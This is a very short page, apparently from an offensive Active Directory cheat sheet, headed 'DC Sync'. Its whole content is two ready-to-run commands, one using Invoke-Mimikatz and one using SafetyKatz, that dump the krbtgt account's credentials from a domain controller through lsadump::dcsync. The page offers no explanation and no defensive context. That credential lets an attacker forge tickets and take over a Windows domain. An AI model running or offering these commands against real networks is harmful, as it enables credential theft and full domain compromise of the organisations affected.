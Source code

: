 # DC Sync



{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"' 

SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
{% endcode %}

